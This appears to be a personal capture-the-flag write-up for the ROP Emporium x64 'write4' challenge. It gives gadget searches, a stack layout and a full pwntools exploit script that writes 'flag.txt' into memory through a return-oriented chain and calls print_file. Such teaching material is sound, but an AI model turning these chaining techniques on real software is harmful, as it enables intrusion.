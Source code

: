 ```yaml
---
layout: page
permalink: /ROP_emporium/2022-07-13-ROP-x64-Challenge-4
title: ROP x64 Challenge 4
status: in progress
type: post
published: false
comments: true
date: 2022-07-13
---
```

## Challenge 4


Once more into the breach with these rop exploits friends. We have a pretty simular situation to the 2nd challenge.

> **Important!**  
A PLT entry for a function named print_file() exists within the challenge binary, simply call it with the name of a file you wish to read (like "flag.txt") as the 1st argument.

All we need to do is call the print_file function with the first argument being a pointer to a string containing "flag.txt". The one problem is a complete lack of that string in the binary. I used `strings` and `rabin2` to attempt to find them and found nothing.

Now considering this challenge is called write4 and it has a whole section on how to write to memory in the challenge description, I deduced I needed to write that string into memory. The challenge sudgests looking for something in the form `mov [reg], reg` so that's what I did.

```

pwndbg> ropper -- --search "mov [???],???
[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: mov [???],???

[INFO] File: /root/working/write4/write4_64/write4
0x0000000000400629: mov dword ptr [rsi], edi; ret; 
0x0000000000400628: mov qword ptr [r14], r15; ret; 

```
and look at that. I found 2 gadgets that might work. Now, I'd rather work with moving as much data at once which means using the r15 (8 bytes) rather then the edi (4 bytes), so that's the one I looked for first. 

```
pwndbg> ropper -- --search "pop r14"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop r14

[INFO] File: /root/working/write4/write4_64/write4
0x0000000000400690: pop r14; pop r15; ret; 
```

This provides a perfect gadget to populate the write gadgets with whatever value we want. 

The question now is where to write our string to the binary. So we are going to use the `vmmap` cmd to look at what parts of the memory is writable

```
Looking at the perms on parts of the code we see the following areas are able to be written to
nth paddr        size vaddr       vsize perm name
―――――――――――――――――――――――――――――――――――――――――――――――――
18  0x00000df0    0x8 0x00600df0    0x8 -rw- .init_array
19  0x00000df8    0x8 0x00600df8    0x8 -rw- .fini_array
20  0x00000e00  0x1f0 0x00600e00  0x1f0 -rw- .dynamic
21  0x00000ff0   0x10 0x00600ff0   0x10 -rw- .got
22  0x00001000   0x28 0x00601000   0x28 -rw- .got.plt
23  0x00001028   0x10 0x00601028   0x10 -rw- .data
24  0x00001038    0x0 0x00601038    0x8 -rw- .bss
```

Note: the above is trimmed to only show the writable sections

The string is "flag.txt" which is 9 bytes long (including the null byte) which gets rid of a couple of the sections. So I chose the .data section of the binary to write into. 

The last gadget we'll need is something to control rdi for the parameter pass to the print_file

```
pwndbg> ropper -- --search "pop rdi"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: /root/working/write4/write4_64/write4
0x0000000000400693: pop rdi; ret; 
```

Finally let's find the print_file function mentioned in the description.
```
disass print_file
Dump of assembler code for function print_file@plt:
   0x0000000000400510 <+0>:     jmp    QWORD PTR [rip+0x200b0a]        # 0x601020 <print_file@got.plt>
   0x0000000000400516 <+6>:     push   0x1
   0x000000000040051b <+11>:    jmp    0x4004f0
End of assembler dump.
```

Now with all of the information let's craft our stack layout. 

```
         | stack          |
         | -------------- |
32 bytes | start buffer   |
8  bytes | base pointer   | 
8  bytes | pop_r gadget   | # gadget to get values into r14 and r15
8  bytes | write loc      | # place location to write into r14
8  bytes | "flag.txt"     | # 1st 8 bytes of the string
8  bytes | write gadget   | # gadget to write into memory
8  bytes | pop_r gadget   | # do all of that again for the final null byte
8  bytes | "\x00"         | #     Note: bytes after may be init to null 
8  bytes | write loc + 8  | #           so you don't have to do this one
8  bytes | write gadget   |
8  bytes | pop_rdi gadget | # place location of the sring in rdi for 1st param
8  bytes | write loc      | 
8  bytes | print_file loc | # call function to win
8  bytes | -------------- |

```


Coded up this gives the following exploit.

```python
#!/usr/bin/python3

from pwn import *

pop_gaget       = p64(0x0000000000400690)
write_gaget     = p64(0x0000000000400628)
pop_rdi         = p64(0x00400693)
write_loc       = 0x601028
print_file      = p64(0x00400510)
back_junk       = b"B" * 20

# The amount to fill the buffer
junk = b'A' * 0x20

# The 8 bytes to fill the new base pointer from the leave
new_bp = p32(0xc0deba5e)*2


"""
Place a string (1st arg) into the location
given by the 2nd arg. Note the 2nd arg should be 
packed
"""
def string_place(write_string, write_start):
        returnPayload = b""
        for i in range(0, len(write_string), 8):
                returnPayload += pop_gaget
                #destination
                returnPayload += p64( write_start+ (i))
                temp = write_string[i:i+8] 
                temp += b"\x00" * ( 8 - len(temp) )
                returnPayload += temp
                returnPayload += write_gaget

        return returnPayload

"""
Place the value for the first args of a function
"""
def first_arg(var):
        returnPayload = pop_rdi
        returnPayload += p64(var)
        return returnPayload


io = process('./write4')

# This is the vaddr of system
# First return to the location of the pop rdi
# 4   0x00400510 GLOBAL FUNC       print_file
#Fill up the buffer and the base pointer
payload = junk + new_bp

payload += string_place(b"flag.txt", write_loc)

# This is the vaddr of system
# First return to the location of the pop rdi
payload += first_arg(write_loc)
payload += print_file

payload += back_junk

print("The payload is:")
print(payload)
print("Payload size is:" + str(len(payload)))
input("Hit enter to apptempt exploit")

print(io.clean(0.5).decode("utf-8"))
io.send(payload)
input("exploit sent hit enter to end")
print(io.clean(0.5).decode("utf-8"))

sleep(1)

f = open('./payload', 'wb')
f.write(payload)
f.close()

```

Note: I started writing my exploits into files for easier debugging in gdb. Before I would run the exploit and then attach gdb for debugging with `gdb -p $pid` but now I can just do `r < ./payload` within gdb which is nice

